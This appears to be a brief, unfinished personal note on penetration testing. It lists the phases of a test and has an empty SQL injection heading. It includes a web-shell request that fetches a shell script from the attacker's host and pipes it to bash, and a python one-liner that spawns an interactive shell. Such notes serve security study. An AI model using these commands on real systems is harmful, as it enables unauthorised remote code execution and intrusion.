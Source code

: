 ```yaml
---
Title: Penetration Test
description: 
draft: True
spelling: 
---
```


## Flow

  VA -> PT

  1. Planning and Reconnaissance
  2. Scanning
  3. Gaining System Access
  4. Persistent Access
  5. Analysis and Reporting

### SQL injection

### Web shell

``` shell
Dysco.php?cmd=curl ${local_ip}:8000/shell.sh|bash
```

### Shell

``` shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

